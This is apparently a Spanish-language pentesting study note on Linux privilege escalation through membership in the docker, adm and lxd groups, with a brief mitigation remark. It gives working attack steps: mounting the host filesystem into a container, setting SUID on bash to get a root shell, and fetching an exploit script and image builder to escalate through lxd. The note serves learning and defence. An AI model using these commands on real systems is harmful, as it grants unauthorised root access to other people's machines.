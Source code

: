 ------
- Tags: #escalation #privilege #permisos 
--------
# Explicación

> En el contexto de Linux, los **grupos** se utilizan para **organizar** a los usuarios y **asignar** **permisos** para acceder a los recursos del sistema. Los usuarios pueden pertenecer a uno o varios grupos, y los grupos pueden tener diferentes niveles de permisos para acceder a los recursos del sistema.

Existen grupos especiales en Linux, como **``lxd``** o **``docker``**, que se utilizan para permitir a los usuarios ejecutar contenedores de manera segura y eficiente. Sin embargo, si un usuario malintencionado tiene acceso a uno de estos grupos, podría aprovecharlo para obtener privilegios elevados en el sistema.

Por ejemplo, si un usuario tiene acceso al grupo **``docker``**, podría utilizar la herramienta Docker para desplegar nuevos contenedores en el sistema. Durante el proceso de despliegue, el usuario podría aprovecharse de las **monturas** (**``mounts``**) para hacer que ciertos recursos inaccesibles en la máquina host estén disponibles en el contenedor. Al ganar acceso al contenedor como usuario ‘**root**‘, el usuario malintencionado podría inferir o manipular el contenido de estos recursos desde el contenedor.

Para mitigar el riesgo de abuso de grupos de usuario especiales, es importante limitar cuidadosamente el acceso a estos grupos y asegurarse de que sólo se asignan a usuarios confiables que realmente necesitan acceder a ellos.

# Ejemplo

Una vez que obtengamos el acceso a la máquina víctima, si realizamos un ``id`` podremos ver **a que grupos pertenece el usuario actual** en el que estamos operando. 
Tenemos que entender que hay muchos grupos existentes por defecto, uno de ellos es el grupo ``sudo`` que si un usuario pertenece a el tiene permitido ejecutar comandos como **root**, para esto simplemente basta con saber la contraseña del usuario **actual** (*Que no siempre es el caso cuando accedemos a una máquina*).

Como vamos a estar manipulando el acceso a determinados grupos, una vez que terminemos lo conveniente es hacer un ``gpasswd -d c4sp docker`` para que el usuario *c4sp* **no pertenezca al grupo docker** en este caso, pero debemos hacerlo con todos los que manipulemos por seguridad.

-------
## Grupo docker

Aislado al grupo que nombramos recién, también existe el grupo ``docker``, si realizamos **como root** un ``usermod -a -G docker c4sp`` le estamos asignando el grupo **docker** al usuario **c4sp**.

Imaginemos que comprometemos una máquina y el usuario que ingresamos por defecto es **c4sp** y no sabemos su contraseña, haciendo un breve reconocimiento vemos que pertenece al grupo ``docker``, por lo tanto tendríamos permiso para listar **las imágenes**, **los contenedores desplegados/activos** y **desplegar contenedores**, por lo tanto podríamos efectuar un ``docker pull ubuntu:latest`` para crear una imagen de la ultima versión de Ubuntu.

Después vamos a hacer correr ese contenedor pero haciendo uso de las **Monturas** para que todos los archivos que se encuentren en la raíz ``/`` del sistema, **se puedan ver** desde el directorio ``/mnt/root`` del contenedor.

- ``docker run -dit -v /:/mnt/root --name dockerGroup ubuntu``

De esta manera podríamos ver y modificar los archivos de cualquier directorio del **Sistema Host** a través del contenedor. ==Recordemos que si borramos un archivo desde el contenedor, será borrado en la máquina real==

Un ejemplo de algo crítico que podríamos hacer sería ir al directorio ``/bin`` y otorgarle **permisos SUID** al binario ``bash`` tal que así ``chmod u+s bash``, de esta manera cuando salgamos del contenedor ese permiso **quedará vigente**, y podremos ejecutarnos una **bash** como usuario privilegiado (root) con ``bash -p``

------
## Grupo adm

Para este ejemplo nos vamos a aprovechar del grupo ``adm`` que lo que nos permite es **leer los logs del sistema**, para esto le asignaremos ese grupo a nuestro usuario ``usermod -a -G adm c4sp``. Cabe aclarar que **no es un grupo que permita elevar nuestro privilegio** pero si podemos leer los **logs** para **adquirir información confidencial**.

La ruta por defecto de los **logs** del sistema está en ``/var/log``, pero también podríamos realizar un ``find /var/log -group adm 2>/dev/null``

----
## Grupo lxd

Para este ejemplo tendremos que instalar ``lxd`` con ``snap install lxd``.

- ``usermod -a -G lxd c4sp``

**LXD** es similar a Docker, ya que podremos desplegar contenedores y manipularlos con el uso de **monturas**.
Si nosotros realizamos un ``searchsploit lxd privilege escalation`` veremos que hay un script que nos permite **realizar una escalada de manera automatizada** abusando del grupo **lxd**, por lo tanto lo descargaremos con ``searchsploit -m linux/local/46978.sh``, luego leeremos las instrucciones que posee dentro y las seguiremos paso a paso.

- ``wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine`` [Máquina atacante]
- ``bash build-alpine`` [Máquina atacante]
- Transferir **el archivo comprimido creado por el comando anterior** y el **script** que conseguimos con ``searchsploit`` a la máquina víctima [Máquina atacante]
- Una vez tenemos el comprimido en la máquina víctima ejecutar el script con ``./lxd-escalation -f alpine-v3.20-x86_64-20240920_1914.tar.gz`` para obtener el usuario root [Máquina víctima]
- Una vez dentro del contenedor, ir al directorio /mnt/root para ver todos los recursos de la máquina host [Máquina víctima]

Puede que al ejecutar el script final para escalar privilegios con ``lxd``, te de el error "``lxc: orden no encontrada``". Para solucionar esto, asegúrate de que tienes instalado ``lxc``, en caso de que no instálalo con el comando ``sudo apt install lxc``. Una vez que lo tengamos instalado, tenemos que incluir la ruta ``/snap/bin`` al **PATH** con el comando ``export PATH=$PATH:/snap/bin`` Ahora si volvemos a ejecutar el script, nos debería de funcionar.

De esta manera podría modificar por ejemplo el binario en ``/bin/bash`` dándole **permisos SUID** para poder modificarlos en la **máquina host**, de esta forma podríamos ejecutarnos una **bash privilegiada** con ``bash -p``.